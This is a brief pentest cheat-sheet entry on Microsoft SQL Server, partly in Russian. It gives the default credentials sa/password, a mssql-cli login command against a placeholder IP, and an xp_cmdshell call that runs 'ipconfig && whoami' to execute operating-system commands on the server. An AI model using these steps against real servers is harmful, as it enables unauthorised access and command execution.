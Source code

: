 # mssql

default creds: sa/password

Подключение

```
mssql-cli -S IP -U sa -P password
master> EXEC xp_cmdshell 'ipconfig && whoami'
```
